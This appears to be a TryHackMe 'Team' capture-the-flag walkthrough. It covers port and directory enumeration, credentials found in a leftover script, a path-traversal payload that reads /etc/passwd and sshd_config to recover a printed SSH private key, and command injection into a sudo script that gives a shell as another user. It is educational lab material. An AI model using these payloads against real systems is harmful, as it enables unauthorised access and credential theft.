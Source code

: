 # TryHackMe - Team

[Room link](https://tryhackme.com/room/teamcw)

---

## Enumeration

Nmap :

```bash
$ sudo nmap -sS -oN 
[...]
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Ftp as anonymous is disable

```bash
220 (vsFTPd 3.0.3)
Name (10.10.107.140:x): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

Let's check the website.

Scan with dirb :

```bash
$ dirb http://<target_ip>
```

Nothing.

We cas see the title of default page on this website : Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!

We add this line in /etc/hosts :

```bash
<target_ip> team.thm
```

Now we can see an another virtualhost on http://team.thm/

Let's restart a simple dirb scan :

```bash
$ dirb http://team.thm/
```

robots.txt contains this string : "dale"

Let's run gobuster in /scripts/ directory. 

There is a script.txt with an interesting lines :

```txt
# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

If we try script.old, we can download file. In this file, we have the ftp credentials.

```bash
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls -l
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 workshare
226 Directory send OK.
150 Here comes the directory listing.
drwxrwxr-x    2 65534    65534        4096 Jan 15  2021 .
drwxr-xr-x    5 65534    65534        4096 Jan 15  2021 ..
-rwxr-xr-x    1 1002     1002          269 Jan 15  2021 New_site.txt
226 Directory send OK.
ftp> get New_site.txt
local: New_site.txt remote: New_site.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for New_site.txt (269 bytes).
100% |******************************************|   269      118.22 KiB/s    00:00 ETA
226 Transfer complete.
269 bytes received in 00:00 (8.00 KiB/s)
```

This file contains this :

```txt
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.
```

Let's add this line on this file /etc/hosts :

```bash
dev.team.thm <target_ip>
```

We found a new file script.php on the main page of this website.

We can play with the parameter for display something else like /etc/passwd :

```bash
curl http://dev.team.thm/script.php?page=../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[...]
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```

There is some interesting user like dale and gyles.

After some research, we can get the private key of dale :

```bash
http://dev.team.thm/script.php?page=../../../etc/ssh/sshd_config
[...]
Dale id_rsa
#-----BEGIN OPENSSH PRIVATE KEY-----
#b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
#NhAAAAAwEAAQAAAYEAng6KMTH3zm+6rqeQzn5HLBjgruB9k2rX/XdzCr6jvdFLJ+uH4ZVE
#NUkbi5WUOdR4ock4dFjk03X1bDshaisAFRJJkgUq1+zNJ+p96ZIEKtm93aYy3+YggliN/W
#oG+RPqP8P6/uflU0ftxkHE54H1Ll03HbN+0H4JM/InXvuz4U9Df09m99JYi6DVw5XGsaWK
[...]
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----
```` 

We can use it to connect us on the target machine.

```bash
$ ssh -i id_rsa_dale dale@dev.team.thm                                         
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ 
```

---

## Flag user

User flag is here -> /home/dale/user.txt

---

## Flag root

For getting a root shell let's check the sudo's permissions. 

```bash
$ sudo -l
[...]
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

let's execute this script

```bash
$ sudo -u gyles /home/gyles/admin_checks
[...]
Reading stats.
Reading stats..
Enter name of person backing up the data: id
Enter 'date' to timestamp the file: id
The Date is uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
Stats have been backed up
```

We can inject commands through the script as gyles.

```bash
Enter 'date' to timestamp the file: /bin/bash
The Date is 
ls
admin_checks
whoami
gyles
```


